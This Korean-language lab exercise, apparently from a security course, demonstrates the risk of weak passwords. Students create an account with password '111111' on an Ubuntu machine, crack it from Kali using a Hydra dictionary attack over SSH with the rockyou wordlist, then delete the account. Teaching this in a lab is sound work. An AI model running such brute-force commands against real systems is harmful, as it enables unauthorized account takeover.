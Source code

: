## 패스워드 복잡성 설정

취약한 패스워드를 허용하면 어떤 문제가 발생할 수 있는지 알아봅시다.

### 실습 1 : SSH를 통한 사전 대입 공격
1. [우분투] 사용자명이 `aaa`고 패스워드가 `111111`인 계정 생성(또는 기존 계정의 패스워드를 `111111`으로 변경)
```
cju@wooam:~$ sudo adduser aaa
```

2. [칼리] Hydra 도구를 사용한 사전 대입 공격
```
$ hydra -l aaa -P /usr/share/wordlists/rockyou.txt.gz ssh://192.168.202.xxx
```

3. [칼리] 패스워드가 보인다!
```
[22][ssh] host: 192.168.202.128   login: aaa   password: 111111
```

4. [칼리] (참고) 사전 파일 확인
```
$ vi /usr/share/wordlists/rockyou.txt.gz
```

### 복구
1. 생성한 계정 삭제
```
cju@wooam:~$ sudo deluser --remove-all-files aaa
```